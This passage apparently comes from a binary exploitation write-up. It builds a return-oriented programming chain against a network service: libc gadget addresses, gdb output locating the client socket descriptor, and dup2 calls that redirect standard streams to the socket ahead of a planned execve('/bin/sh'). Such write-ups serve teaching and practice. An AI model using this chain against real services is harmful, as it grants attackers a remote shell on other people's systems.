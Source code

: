 ```
	       execve_address = p64(execve_offset_libc+libc_base)
	       binsh_address = p64(binsh_offset_libc+libc_base)   
	       pop_rdi_ret_address = p64(pop_rdi_ret_offset +libc_base)
	       pop_rsi_ret_address = p64(pop_rsi_ret_offset +libc_base)
	       pop_rdx_ret_address = p64(pop_rdx_ret_offset +libc_base)
```

Putting all of that together, i have the following code:

###### Nota: 

**When we execute the shell with "execve("/bin/sh",0,0)" function we have to redirect the output(stdout), the input(stdin) and the error(stderr) to the client file descriptor socket.**

The file descriptor number for the client where the reverse shell should redirect the (stdin,stdout,sterror)
```
  0x0000555555554de8 <+654>:	**movzx  edx,WORD PTR [rbp-0x412]**
   0x0000555555554def <+661>:	lea    rcx,[rbp-0x410]
   0x0000555555554e29 <+655>:	mov    eax,DWORD PTR [rbp-0x424]
   0x0000555555554e2f <+661>:	mov    rsi,rcx
   0x0000555555554e32 <+664>:	mov    edi,eax
   0x0000555555554e34 <+666>:	call   0x555555554980 <write@plt>
```

Here the sock == file descriptor is the first argument of the function "write(sock,note,index)". This argument is passed through the edi, and edi is the value of 'DWORD PTR [rbp-0x424]"

**edi is 4bytes from [rbp-0x424]**

```
gdb-peda$ x/4b $rbp-0x424
0x7fffffff8b9c:	**0x04**	0x00	0x00	0x00
```
#### Code 

```
  # create payloads
       # first rop chains to execute: dup2(FILE_DESCRIPTOR,1) 
       # in asm:
        #pop rdi, ret # set the arg1 (File_DESCRIPTOR==4)
        #pop rsi, ret # set arg2      (stdout=1)
        #call dup2(4,1) redirect stout
       payload_dup2=pop_rdi_ret_address
       payload_dup2+=p64(FILE_DESCRIPTOR)
       payload_dup2+=pop_rsi_ret_address
       payload_dup2+=p64(1)
       payload_dup2+=dup2_address
        #call dup2(4,0) redirect stdin
       payload_dup2+=pop_rdi_ret_address
       payload_dup2+=p64(FILE_DESCRIPTOR)
       payload_dup2+=pop_rsi_ret_address
       payload_dup2+=p64(0)
       payload_dup2+=dup2_address
        #call dup2(4,2) redirect stderror
       payload_dup2+=pop_rdi_ret_address
       payload_dup2+=p64(FILE_DESCRIPTOR)
       payload_dup2+=pop_rsi_ret_address
       payload_dup2+=p64(2)
       payload_dup2+=dup2_address
       
       # second ropchains to execve("/bin/sh",0,0)
       # in asm:
        #pop rdi, ret # set the arg1 ("/bin/sh" address)
        #pop rsi, ret # set arg2      (0)
        #pop rdx, ret # set arg3      (0)
        #call execve
```